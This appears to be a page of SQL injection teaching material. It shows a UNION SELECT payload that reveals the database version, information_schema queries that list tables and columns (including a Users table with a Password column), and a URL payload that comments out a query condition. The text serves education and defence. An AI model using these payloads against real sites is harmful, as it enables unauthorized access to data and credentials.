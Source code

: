 `' UNION SELECT @@version--`

This might return the following output. In this case, you can confirm that the database is Microsoft SQL Server and see the version used:

`Microsoft SQL Server 2016 (SP2) (KB4052908) - 13.0.5026.0 (X64) Mar 18 2018 09:11:49 Copyright (c) Microsoft Corporation Standard Edition (64-bit) on Windows Server 2016 Standard 10.0 <X64> (Build 14393: ) (Hypervisor)`


## Listing the contents of the database

Most database types (except Oracle) have a set of views called the information schema. This provides information about the database.

For example, you can query `information_schema.tables` to list the tables in the database:

`SELECT * FROM information_schema.tables`

This returns output like the following:

`TABLE_CATALOG TABLE_SCHEMA TABLE_NAME TABLE_TYPE ``===================================================== MyDatabase dbo Products BASE TABLE MyDatabase dbo Users BASE TABLE MyDatabase dbo Feedback BASE TABLE`

This output indicates that there are three tables, called `Products`, `Users`, and `Feedback`.

You can then query `information_schema.columns` to list the columns in individual tables:

`SELECT * FROM information_schema.columns WHERE table_name = 'Users'`

This returns output like the following:

`TABLE_CATALOG TABLE_SCHEMA TABLE_NAME COLUMN_NAME DATA_TYPE ================================================================= MyDatabase dbo Users UserId int MyDatabase dbo Users Username varchar MyDatabase dbo Users Password varchar`

This output shows the columns in the specified table and the data type of each column.



### Summary
**Summary: SQL Injection Techniques**

### Vulnerable Query Components
SQL injection can occur in different SQL statements, including:
- `UPDATE`: vulnerable in `SET` or `WHERE` clauses.
- `INSERT`: vulnerable in inserted values.
- `SELECT`: vulnerable in table/column names and `ORDER BY` clause.

### Basic SQL Injection Attack
A common attack form modifies the query by injecting SQL and commenting out the rest:
```plaintext
https://insecure-website.com/products?category=Gifts'--
```
This results in:
```sql
SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1
```
This example bypasses any conditions after `--`, making all items (including unreleased ones) visible.
